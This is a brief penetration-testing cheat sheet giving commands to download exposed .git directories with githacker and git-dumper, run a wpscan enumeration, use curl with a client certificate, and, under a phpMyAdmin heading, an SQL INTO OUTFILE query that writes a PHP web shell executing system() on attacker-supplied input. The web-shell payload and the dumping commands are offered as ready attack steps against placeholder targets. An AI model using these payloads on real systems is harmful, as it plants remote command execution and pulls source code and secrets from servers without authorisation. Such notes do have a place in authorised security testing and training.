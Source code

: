 # Download .git
```bash
githacker --url http://url/.git/ --folder result
```
[Source](https://github.com/WangYihang/GitHacker)


```bash
git-dumper http://url .
```
[Source](https://github.com/arthaud/git-dumper)

# CMS
### Scaning
```bash
wpscan --force update -e --url IP --disable-tls-checks
```

# Certificate
```
curl <url> --key KEY.key --cert CERT.cert
```

# PhpMyAdmin
### Quick Shellcode
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```
